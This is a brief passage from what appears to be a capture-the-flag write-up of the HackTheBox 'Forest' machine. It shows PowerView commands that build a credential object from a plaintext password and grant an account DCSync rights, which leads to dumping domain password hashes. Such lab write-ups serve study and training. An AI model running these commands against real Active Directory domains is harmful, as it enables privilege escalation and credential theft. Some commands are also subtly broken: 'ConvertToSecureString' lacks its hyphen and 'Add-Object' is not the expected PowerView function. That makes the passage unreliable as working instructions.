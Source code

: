 ![](images/forest13.png)

We can now use PowerView to grant ourselves DCSync rights. You can read more about how to do that reading [**this article**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync). I load PowerView, create a credential object, and then grant DCSync rights.

`. .\PowerView.ps1`

`$SecPassword = ConvertToSecureString 'Password1' -AsPlaintext -Force`

`$Cred = New-Object System.Management.Automation.PSCredential('HTB\jdotinfo', $SecPassword)`

`Add-Object -Credential $Cred -PrincipalIdentity jdotinfo -Rights DCSync`

![](images/forest14.png)

